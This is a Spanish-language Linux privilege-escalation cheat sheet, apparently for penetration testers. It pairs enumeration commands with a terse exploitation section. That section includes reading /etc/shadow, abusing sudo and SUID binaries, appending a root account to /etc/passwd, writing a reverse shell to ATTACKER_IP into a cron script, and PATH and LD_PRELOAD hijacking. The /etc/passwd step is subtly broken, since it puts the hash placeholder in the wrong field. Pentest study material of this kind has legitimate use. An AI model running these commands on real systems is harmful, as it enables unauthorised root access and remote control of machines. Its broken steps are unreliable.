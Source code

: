 # Enumeration: Linux privilege escalation

## 🔍 Sección 1: Enumeración

### 1️⃣ Información del sistema

```bash
uname -a                   # Versión del kernel
cat /etc/os-release        # Información de la distribución
cat /etc/issue							
arch                       # Arquitectura del sistema
```

### 2️⃣ Usuarios y grupos

```bash
whoami                     # Usuario actual
id                          # Grupos del usuario actual
who -a                      # Usuarios conectados
cat /etc/passwd            # Lista de usuarios
cat /etc/shadow            # Hashes de contraseñas (requiere root)
sudo -l                    # Comandos sudo disponibles
```

### 3️⃣ Permisos y archivos sensibles

```bash
find / -perm -4000 2>/dev/null   # Binarios con SUID
find / -perm -2000 2>/dev/null   # Binarios con SGID
find / -type f -writable 2>/dev/null  # Archivos con permisos de escritura
find /home -name '.*history' 2>/dev/null  # Historial de comandos
find / -type f -perm -g=w -group <grupo> 2>/dev/null # Archivos con permiso de escritura por el grupo
find / -type f -writable -user $(whoami) 2>/dev/null # Archivos escribibles por tu usuario actual (sin importar grupo)
find / -writable -group <grupo> 2>/dev/null # directorios (para escribir archivos dentro)
find / -type f -perm -g=w -perm -111 -group <grupo> 2>/dev/null # Buscar archivos ejecutables escribibles por el grupo
```

### 4️⃣ Procesos y tareas en ejecución

```bash
ps aux | grep root           # Procesos ejecutados por root
ps -ef | grep <proceso>      # Información de un proceso específico
lsof -i                     # Conexiones activas
```

### 5️⃣ Servicios y conexiones

```bash
netstat -tulnp               # Puertos abiertos y servicios activos
ss -tulnp                    # Alternativa a netstat
iptables -L                  # Reglas de firewall
systemctl list-units --type=service  # Servicios activos
```

### 6️⃣ Cron jobs y timers

```bash
ls -lah /etc/cron*           # Revisar cron jobs
cat /etc/crontab            # Tareas programadas
systemctl list-timers       # Timers activos
```

### 7️⃣ Variables de entorno

```bash
env                         # Variables de entorno
echo $PATH                  # Directorios en PATH
cat /etc/profile            # Variables globales
```

### 8️⃣ Capacidades de binarios

```bash
getcap -r / 2>/dev/null     # Binarios con capacidades especiales
```

### 9️⃣ Contenedores y Docker

```bash
docker ps -a                # Contenedores en ejecución
cat /etc/group | grep docker # Ver si el usuario está en el grupo docker
```

## 💥 Sección 2: Explotación

### 1️⃣ Explotación de SUDO mal configurado

```bash
sudo -l                     # Ver permisos sudo
sudo su                     # Si NOPASSWD está habilitado
sudo <comando>              # Ejecutar comandos con sudo
```

### 2️⃣ SUID/SGID abuse

```bash
find / -perm -4000 2>/dev/null   # Buscar archivos con SUID
find / -perm -2000 2>/dev/null   # Buscar archivos con SGID
/bin/bash -p                     # Ejecutar bash con privilegios SUID
```

### 3️⃣ Malos permisos en archivos y directorios

```bash
openssl passwd newpass
codedPass
echo 'root::0:0:codedPass:::/bin/bash' >> /etc/passwd  # Crear usuario root
```

### 4️⃣ Tareas cron y servicios inseguros

```bash
echo "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1" > /path/to/vulnerable_script.sh
```

### 5️⃣ Variables de entorno peligrosas

```bash
export PATH=/tmp:$PATH       # Modificar PATH
export LD_PRELOAD=/tmp/malicioso.so  # Cargar biblioteca maliciosa
```

### 6️⃣ Explotación de procesos en ejecución

```bash
gdb -p <PID>                # Adjuntar a un proceso
```

### 7️⃣ Explotación de servicios y configuraciones de red

```bash
showmount -e <IP>           # Revisar NFS
```

### 8️⃣ Extracción de credenciales

```bash
cat ~/.bash_history         # Revisar historial de comandos
```

### 9️⃣ Kernel Exploits

```bash
uname -r                    # Revisar versión del kernel
searchsploit <versión>      # Buscar exploits para el kernel
```

